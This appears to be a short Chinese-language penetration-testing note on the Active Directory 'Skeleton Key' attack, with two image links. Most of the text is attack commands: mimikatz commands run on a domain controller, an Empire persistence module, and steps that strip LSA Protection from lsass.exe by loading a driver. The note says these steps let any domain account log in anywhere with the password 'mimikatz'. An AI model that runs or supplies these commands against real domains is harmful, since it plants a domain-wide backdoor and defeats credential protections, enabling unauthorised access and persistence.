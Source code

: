 	域控上使用mimikatz执行
	>privilege::debug
	>misc::skeleton
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/567.png)

	可以使用域内任何账号以密码mimikatz登录任意域内主机
	使用Empire模块
	>usemodule persistence/misc/skeleton_key*
	绕过LSA Protection
	>privilege::debug
	>!+
	>!processprotect /process:lsass.exe /remove
	>misc::skeleton